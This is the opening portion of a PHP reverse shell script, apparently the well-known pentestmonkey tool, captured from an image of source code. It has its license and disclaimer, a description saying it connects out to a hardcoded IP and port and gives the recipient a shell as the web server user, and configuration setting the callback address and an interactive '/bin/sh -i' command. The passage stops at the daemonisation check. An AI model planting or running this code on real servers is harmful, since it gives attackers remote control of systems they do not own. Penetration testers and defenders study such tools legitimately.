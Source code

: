 ```
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.44';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
```